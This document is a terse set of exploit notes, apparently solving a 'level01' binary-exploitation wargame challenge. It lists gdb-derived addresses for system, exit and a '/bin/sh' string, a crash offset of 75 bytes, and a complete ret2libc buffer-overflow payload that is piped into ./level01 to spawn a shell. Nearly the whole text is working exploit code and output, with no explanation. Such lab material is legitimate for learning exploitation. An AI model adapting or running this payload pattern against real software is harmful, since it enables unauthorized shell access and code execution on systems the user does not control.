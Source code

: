 p system
0x f7 e6 ae d0 --> \xd0\xae\xe6\xf7 

p exit
0x f7 e5 eb 70 --> \x70\xeb\xe5\xf7


find 0xf7e2c000, 0xf7ffe000, '/', 'b', 'i', 'n', '/', 's', 'h'
0x f7 f8 97 ec --> \xec\x97\xf8\xf7

Program received signal SIGSEGV, Segmentation fault.`
0x41356341

Offset 75

r < <(python -c 'print "dat_wil"' ; python -c 'print "admin" + "A"*75 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xed\x97\xf8\xf7"')

(python -c 'print "dat_wil"' ; python -c 'print "admin" + "A"*75 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat) | ./level01

